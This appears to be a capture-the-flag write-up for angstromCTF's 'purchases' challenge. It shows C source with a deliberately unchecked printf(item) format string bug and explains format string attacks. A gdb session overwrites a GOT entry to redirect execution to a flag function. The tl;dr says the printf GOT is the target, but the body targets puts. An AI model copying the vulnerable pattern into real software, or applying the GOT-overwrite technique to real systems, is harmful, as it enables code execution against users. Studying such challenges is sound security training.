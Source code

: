 ## angstromCTF: purchases
>This grumpy shop owner won't sell me his flag! At least I have his source.

##### *tl;dr: format string vulnerability to overwrite printf GOT*
#### As with the other pwn challenges, the source codes are given - making the vulnerability finding process much easier:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void flag() {
	system("/bin/cat flag.txt");
}

int main() {
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	char item[60];
	printf("What item would you like to purchase? ");
	fgets(item, sizeof(item), stdin);
	item[strlen(item)-1] = 0;

	if (strcmp(item, "nothing") == 0) {
		printf("Then why did you even come here? ");
	} else {
		printf("You don't have any money to buy ");
		printf(item);
		printf("s. You're wasting your time! We don't even sell ");
		printf(item);
		printf("s. Leave this place and buy ");
		printf(item);
		printf(" somewhere else. ");
	}

	printf("Get out!\n");
	return 0;
}
```
#### Taking a quick look at the source code, we quickly spot the vulnerability which is the printf function being called without format specifiers (`printf(item);`). What this means is that printf interprets buffer as a format string, and parses any formatting instructions it may contain - thus leading to code executions and memory leaks. 
#### A format string exploit could be executed when the application doesn’t properly validate the submitted input. For example, if a format string parameter, like %x, is inserted into the posted data, the string is parsed by the format function, and the conversion specified in the parameters is executed. However, the format function is expecting more arguments as input, and if these arguments are not supplied, the function could read or write the stack. 
#### To have a better understanding of how we will exploit this challenge, here are quick links to `LiveOverflow`'s videos on format string exploitation:
> [A simple Format String exploit example - bin 0x11](https://www.youtube.com/watch?v=0WvrSfcdq1I&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=18)

> [Global Offset Table (GOT) and Procedure Linkage Table (PLT) - bin 0x12](https://www.youtube.com/watch?v=kUk5pw4w0h4&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=19)

> [Format String Exploit and overwrite the Global Offset Table - bin 0x13](https://www.youtube.com/watch?v=t1LH9D5cuK4&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=20)

> [Adapting the 32bit exploit to 64bit for format4 - bin 0x27](https://www.youtube.com/watch?v=_lO_rwaK_pY&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=42)

#### Examining the source code again, we see that there is is a flag function which prints out the flag for us. Taking a note of this, our exploit plan will be to take advantage of the format string vulnerability to overwrite puts' `GOT address` to the flag function - thus making puts execute what flag does. To test if our plan would work, we try it out in gdb. We set a breakpoint before the puts call, then change the it's GOT address to the address of flag:
```
$ gdb ./purchases
	gdb-peda$ disas printf
	Dump of assembler code for function puts@plt:
		0x0000000000401030 <+0>:	jmp    QWORD PTR [rip+0x2fe2]        # 0x404018
		0x0000000000401036 <+6>:	push   0x0
		0x000000000040103b <+11>:	jmp    0x401020
	End of assembler dump..
	
	gdb-peda$ p flag
	$1 = {<text variable, no debug info>} 0x4011b6 <flag>
	
	gdb-peda$ disas main
	  [...]
		0x000000000040131a <+337>:	call   0x401080 <printf@plt>
		0x000000000040131f <+342>:	lea    rdi,[rip+0xdda]        # 0x402100
		0x0000000000401326 <+349>:	call   0x401030 <puts@plt>
		0x000000000040132b <+354>:	mov    eax,0x0
	  [...]
	
	gdb-peda$ break *0x0000000000401326
	Breakpoint 1 at 0x401326
	
	gdb-peda$ r
	What item would you like to purchase? everything
	You don't have any money to buy everythings. You're wasting your time! We don't even sell everythings. Leave this place and buy everything somewhere else. 
	Breakpoint 1, 0x0000000000401326 in main ()
	
	gdb-peda$ set {int}0x404018=0x4011b6
	
	gdb-peda$ x/ 0x404018
	0x404018:	0x00000000004011b6
	
	gdb-peda$ c
	Continuing.
	[New process 11726]
	process 11726 is executing new program: /bin/dash
	Warning:
	Cannot insert breakpoint 1.
	Cannot access memory at address 0x401326
```


